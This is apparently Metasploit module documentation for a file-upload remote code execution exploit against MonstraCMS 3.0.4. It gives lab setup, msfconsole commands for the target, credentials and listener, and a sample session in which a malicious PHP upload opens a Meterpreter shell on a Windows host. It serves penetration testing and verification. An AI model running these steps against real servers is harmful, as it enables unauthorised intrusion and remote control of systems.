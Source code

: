 ## Description
MonstraCMS 3.0.4 allows users to upload arbitrary files which leads to remote command execution on the remote server. An attacker may choose to upload a file containing PHP code and run this code by accessing the resulting PHP file.
This module was tested against MonstraCMS 3.0.4.
Additional information and vulnerabilities can be viewed on Exploit-DB [43348](https://www.exploit-db.com/exploits/43348/).

## Vulnerable Application 
Available at [Exploit-DB](https://www.exploit-db.com/apps/23663fc7b47c4c1e476b793ea53660bc-monstra-3.0.4.zip)

### Vulnerable Application Installation Setup
 1. Download Application : `https://www.exploit-db.com/apps/23663fc7b47c4c1e476b793ea53660bc-monstra-3.0.4.zip`
 2. Extract : `23663fc7b47c4c1e476b793ea53660bc-monstra-3.0.4.zip`
 3. Move In WebDirectory : `C:\xampp\htdocs\`
 4. Now Visit : http://localhost/

## Verification Steps

 1. Install the application
 2. Start msfconsole
 3. Do: `use exploit/multi/http/monstra_fileupload_exec`
 4. Do: `set rport <port>`
 5. Do: `set rhost <ip>`
 6. Do: `set targeturi monstra`
 7. Do: `set username USERNAME`
 8. Do: `set password PASSWORD`
 9. Do: `check`
```
[*] Monstra CMS: 3.0.4
[+] 192.168.0.101:80 The target is vulnerable.
```
 10. Do: `set lport <port>`
 11. Do: `set lhost <ip>`
 12. Do: `exploit`
 13. You should get a shell.


## Scenarios
### Monstra CMS on Windows Target
```                                                                                                                                    
msf exploit(multi/http/monstra_fileupload_exec) > check 

[*] Monstra CMS: 3.0.4
[+] 192.168.0.101:80 The target is vulnerable.
msf exploit(multi/http/monstra_fileupload_exec) > exploit 

[*] Started bind handler
[*] Trying to Login ......
[+] Authentication successful : [ editor : editor ]
[+] CSRF-Token for File Upload : 2a67a7995c15c69a158d897f517e3aff2e3a4ae9
[*] Trying to upload file with malicious Content....
[*] Executing Payload 
[*] Sending stage (37775 bytes) to 192.168.0.101
[*] Meterpreter session 1 opened (10.0.2.15:45689 -> 192.168.0.101:4444) at 2018-06-30 12:39:53 +0530
[+] Deleted TSPfeLYdMP.PHP

meterpreter > sysinfo 
Computer    : 114619-T470P
OS          : Windows NT 114619-T470P 10.0 build 16299 (Windows 10) AMD64
Meterpreter : php/windows
meterpreter > 
```
